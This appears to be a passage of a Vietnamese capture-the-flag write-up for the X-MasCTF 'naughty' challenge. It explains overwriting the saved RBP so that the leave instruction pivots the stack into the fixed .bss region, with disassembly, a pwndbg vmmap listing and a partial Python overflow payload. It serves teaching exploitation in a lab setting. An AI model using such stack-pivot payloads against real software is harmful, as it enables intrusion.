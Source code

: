 ### Để giải quyết vấn đề này mình sẽ chọn cách đó là điều khiển $rbp trỏ vào vùng nhớ .bss (vùng nhớ để lưu trữ các biến toàn cục và các biến chưa được khởi tạo dữ liệu vd: int i;). Vì vùng nhớ .bss là vùng nhớ cố định (khi Pie disable) nên ta có thể gán $rbp cho một giá trị địa chỉ do ta chỉ định trên vùng nhơ .bss .  Vậy làm sao để $rbp trỏ vào .bss ? Bạn hãy chú ý đến đoạn cuối của hàm main():
```
│       ┌─< 0x004006b7      7416           je 0x4006cf
│       │   0x004006b9      488d3df80000.  lea rdi, qword str.Oh_no....no_gifts_for_you_this_year_: ; 0x4007b8 ; "Oh no....no gifts for you this year :((" ; const char *s
│       │   0x004006c0      e84bfeffff     call sym.imp.puts           ; int puts(const char *s)
│       │   0x004006c5      bf00000000     mov edi, 0                  ; int status
│       │   0x004006ca      e871feffff     call sym.imp.exit           ; void exit(int status)
│       │   ; CODE XREF from main @ 0x4006b7
│       └─> 0x004006cf      b800000000     mov eax, 0
│           0x004006d4      c9             leave
└           0x004006d5      c3             ret
```
Bạn hãy chú ý đến lệnh leave. Lệnh leave tương đương:
```
   mov rsp, rbp
   pop rbp
```
Điều này có nghĩa khi ta ghè đè giá trị của $rbp trên stack lệnh leave sẽ lấy giá trị này lưu vào trong $rbp khi đó ta đã trỏ dc $rbp vào địa chỉ mong muốn. Ta sẽ tìm địa chỉ của phân vùng của .bss bằng lệnh vmmap trên gdb:
```
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
          0x400000           0x401000 r-xp     1000 0      /mnt/c/Users/19520/Music/X-MasCTF/naughty/chall
          0x600000           0x601000 r-xp     1000 0      /mnt/c/Users/19520/Music/X-MasCTF/naughty/chall
          0x601000           0x602000 rwxp     1000 1000   /mnt/c/Users/19520/Music/X-MasCTF/naughty/chall
    0x7ffff7dee000     0x7ffff7fa8000 r-xp   1ba000 0      /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7ffff7fa8000     0x7ffff7fa9000 ---p     1000 1ba000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7ffff7fa9000     0x7ffff7fac000 r-xp     3000 1ba000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7ffff7fac000     0x7ffff7faf000 rwxp     3000 1bd000 /usr/lib/x86_64-linux-gnu/libc-2.31.so
    0x7ffff7faf000     0x7ffff7fb5000 rwxp     6000 0
    0x7ffff7fcd000     0x7ffff7fd0000 r--p     3000 0      [vvar]
    0x7ffff7fd0000     0x7ffff7fd2000 r-xp     2000 0      [vdso]
    0x7ffff7fd2000     0x7ffff7ffb000 r-xp    29000 0      /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffc000     0x7ffff7ffd000 r-xp     1000 29000  /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffd000     0x7ffff7ffe000 rwxp     1000 2a000  /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffe000     0x7ffff7fff000 rwxp     1000 0
    0x7ffffffde000     0x7ffffffff000 rwxp    21000 0      [stack]
```
Hãy chú ý đến hàng thứ 3 ta thấy được vùng nhớ .bss bắt đầu từ địa chỉ 0x601000 để chọn địa chỉ cho $rbp trỏ tới mình sẽ lấy địa chỉ bắt đầu của .bss 0x601000 + 0x500 = 0x601500
```
    v5 = 0xe4ff000000000000
    main =   0x0040067b #mov word [var_2h], 0xe4ff
    bss_addr = 0x601500 # 0x601000 + 0x500  ==> 0x601000 -> dia chi bat dau cua .bss
    payload = "A"*40
    payload += p64(v5)
    payload += p64(bss_addr)
    payload += p64(main)
```